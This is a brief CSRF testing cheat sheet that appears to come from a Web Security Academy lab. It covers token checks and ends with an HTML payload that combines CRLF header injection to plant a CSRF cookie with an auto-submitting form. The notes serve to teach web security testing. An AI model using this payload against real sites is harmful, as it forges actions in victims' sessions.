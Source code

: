 For a CSRF attack to be possible, three key conditions must be in place:
```
1. A relevant action.
2. Cookie-based session handling.
3. No unpredictable request parameters.
```
### Testing CSRF Token.
```
1. Remove CSRF token and see if application accepts it.
2. Change request method POST to GET.
3. See if user token is tied to user session. [ To test it, use another user's token in your token ]
```
### Testing CSRF token and CSRF Cookies.
____
#### Check if CSRF token is tied to the CSRF cookie.
```
1. Submit an invalid CSRF token.
2. Submit a valid CSRF token from another user.
3. Submit a valid CSRF token and CSRF cookie from another user.
```
### Exploitation
To exploit this CSRF token+cookie mechanism, we need to perform 2 things.
```
1. Inject a CSRF cookie in user's session. (HTTP Header injection)
2. Send a CSRF attack to victim.
```
#### Exploit
```html
<img src="https://0af7004304328f1781682fd800e00094.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=LUFzz00Z938R7C5KrosyX9BUHANvsix7" onerror="document.forms[0].submit()">
```
